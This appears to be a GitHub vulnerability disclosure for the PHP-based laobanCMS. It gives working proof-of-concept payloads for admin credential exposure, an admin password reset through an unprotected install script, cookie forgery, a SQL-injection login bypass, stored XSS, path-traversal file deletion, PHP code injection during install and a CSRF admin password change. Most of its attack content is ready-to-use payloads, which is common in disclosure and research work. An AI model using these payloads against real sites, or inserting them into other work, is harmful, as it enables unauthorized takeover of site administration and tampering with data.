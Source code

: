 #  INFO_EXP 
---------------------------
Access to the URL：`/data/0/admin.txt`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B21.png)

# Reset Admin Password 
---------------------------
The problem is in `install/mysql_hy.php`, there is no verification of the installation conditions, first look at `install/index.php`.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE1.png)
The second line makes a judgment on the installation conditions. If there is an `install.txt` file, the installation action stops, prompting to delete the file and installing. it, but in `mysql_hy.php`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE2.png)
Can see that no judgment is made, but directly execute the statement, we continue to look at the executed file, according to the code can be seen under the `/data` directory.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE3.png)

Username password in `/data/0/admin_1.txt`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE4.png)

payload：`/install/mysql_hy.php?riqi=0&i=0`

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE5.png)

Use admin admin to log in.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE6.png)

# Unauthorized access
-------------------------------
The vulnerability is in line 66-70 in `/admin/login.php`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E8%B6%8A%E6%9D%831.png)

You can see that the cookie value is set after login, respectively id and guanliyuan, but this value can be forged, so there is an unauthorized violation.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E8%B6%8A%E6%9D%832.png)

# SQL injection
--------------------------------
The vulnerability is in line 61-65 in `/admin/login.php`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A51.png)

Can see the SQL statement as

`Select * from admin where (guanliyuan='$guanliyuan' and mima='$mima') limit 1`

When the input user is `admin' or '1'='1`, the SQL statement is

`Select * from admin where (guanliyuan='admin' or '1'='1' and mima='xxxx') limit 1`

So you can log in successfully without a password.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A52.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A53.png)

# XSS1
--------------------------------
Visit `admin/liuyan.php`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XXS1-1.png)
POST payload: ` shuyu=lalala&neirong[]=5555<img src=1 onerror=alert(1)>&xxxxx[]=123123123`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XXS1-2.png)

# Del file
-------------------------------
POC：`/admin/pic.php?del=../install/install.txt`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%88%A0%E9%99%A41.png)
You can see that the `install.txt` file was successfully deleted and can be reinstalled.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%88%A0%E9%99%A42.png)

#GETSHELL
-------------------------------
Visit `/install`.

POC: `127.0.0.1');phpinfo();//&username=root&dbname=111111&password=11111111&shuju=2018-11-06&submit=%E4%B8%80%E9%94%AE%E5%AE%89%E8%A3%85`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/GETSHELL1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/GETSHELL2.png)

#XSS2
------------------------------
Visit `admin/type.php?id=1`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS2-1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS2-2.png)

# XSS3
------------------------------
Visit `admin/art.php?typeid=1&gx=1`.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS3-1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS3-2.png)

# CSRF
-------------------------------
POC: 
```
<html>
  <body>
    <form action="http://www.a.com/admin/mima.php" method="POST">
      <input type="hidden" name="guanliyuan" value="123456" />
      <input type="hidden" name="mima" value="123456" />
      <input type="hidden" name="mima1" value="123456" />
      <input type="hidden" name="submit" value="%E4%BF%9D%E5%AD%98%E6%9B%B4%E6%94%B9" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/CSRF1.png)










